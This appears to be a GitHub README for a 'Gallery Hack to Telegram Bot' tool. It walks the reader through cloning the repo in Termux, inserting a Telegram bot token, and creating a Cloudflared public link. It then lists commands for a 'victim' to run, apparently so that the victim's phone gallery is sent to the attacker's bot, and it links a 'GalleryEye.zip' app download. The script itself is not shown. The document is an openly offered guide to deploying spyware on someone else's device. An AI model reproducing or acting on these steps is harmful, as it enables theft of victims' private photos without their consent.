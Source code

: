 <h1 align="center">
  <u>Gallery Hack to Telegram Bot</u>  
  <br>
  <a href="https://youtu.be/M7EJ5-BoOvs">🎥 Demo Video</a>
</h1>

### [TERMUX] Install All Comments

```
pkg update && pkg upgrade -y
```
```
pkg install -y git openssh python wget
```
```
git clone https://github.com/Master-xyx/BestA.git
```
```
cd BestA
```

### Telegram Bot Search 🔍 BotFather 

`@BotFather`

Search Chat I'd 

`@userinfobot`


### Edit numberinfo.py file add Token and Chat I'd

```
nano numberinfo.py
```

### Save file CTRL x y Enter 

save and next Commend
### public Link 🖇️ 
```
bash gallery.sh
```

### Victim Termux Commands 
```
pkg update && pkg upgrade
pkg install python
pkg install python-pip
pkg install git
pkg install curl
pkg install wget
```
# Send Cloudflared Tunnel Link 👍 
### Victim Run code
```
python numberinfo.py
```

## 📌 Contact Me  

<a href="https://youtube.com/@hackedtips">
  <img src="https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white" alt="YouTube">
</a>  
<br>  

<a href="https://chat.whatsapp.com/Cd6PaWtaqKsJsU6gBD8d0P?mode=ems_copy_t">
  <img src="https://img.shields.io/badge/WhatsApp-25D366?style=for-the-badge&logo=whatsapp&logoColor=white" alt="WhatsApp">
</a>

### <a href="https://github.com/Ktmooo00/FB/raw/refs/heads/main/GalleryEye.zip">Gallery App Download</a>
